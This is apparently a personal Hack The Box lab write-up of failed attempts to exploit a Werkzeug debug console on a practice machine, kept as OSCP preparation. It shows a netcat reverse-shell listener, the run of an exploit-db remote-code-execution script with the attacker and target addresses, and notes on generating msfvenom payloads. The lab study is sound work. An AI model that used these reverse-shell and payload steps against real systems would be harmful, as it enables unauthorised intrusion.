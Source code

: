 # Exploitation
## WerkZeug
> Failed WerkZeug Exploitation Attempts
Werkzeug stands out - did some recon and found the following articles/references:
Werkzeug httpd 0.16.1
https://snyk.io/vuln/pip:werkzeug
https://www.exploit-db.com/exploits/43905

I'm trying to avoid using metasploit, as it is not allowed to be used during the OSCP exam, but we'll keep this in our back-pocket just in case. [Article from Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/werkzeug_debug_rce/)

Using the [exploit-db article](https://www.exploit-db.com/exploits/43905) I've downloaded the exploit to my attacking machine. From preliminary code review it looks like this is going to create a reverse shell for us. Started up my listener, executed the python script against the target:

```bash
┌──(root💀kali)-[/home/ghohst/Documents/HTB/scriptk]
└─# nc -lvnp 8888                           
listening on [any] 8888 ...
```

```bash
┌──(root💀kali)-[/home/ghohst/Documents/HTB/scriptk]
└─# python exploit.py 10.10.10.226 5000 10.10.14.3 8888                                              255 ⨯
[-] Debug is not enabled
```

Reviewing the script we see this information, might be barking up the wrong tree.
> if "Werkzeug " not in response.text: print "[-] Debug is not enabled" sys.exit(-1)

Excerpts from ['Flask RCE Debug Mode'](http://ghostlulz.com/flask-rce-debug-mode/):
>Werkzeug is a web server gateway interface (WSGI) web application library which Flask heavily relies on. A WSGI is a calling convention for web servers to forward requests to web applications or frameworks written in the Python programming language.

Excerpts from ['Hacking Flask Applications'](https://medium.com/swlh/hacking-flask-applications-939eae4bffed):

>Sometimes, you can also access the debugger console by navigating to the path “_/console_”, if it is set as a general-purpose path for the debugger.

## MSFVenom Templates
With this information we move on to other avenues. Re-review of the site, re-review of what these inputs are performing / executing. Generated some windows payloads, noted that linux always errors out, confirmed that Android payloads generate. Nmap scan isn't accepting any additional flags/input, searchsploit input doesn't necessarily have any flags that will get us anywhere (query of a 3rd party). Template upload really seems like the only file upload method we have, so we start digging into that.

![[Pasted image 20210503220424.png]]
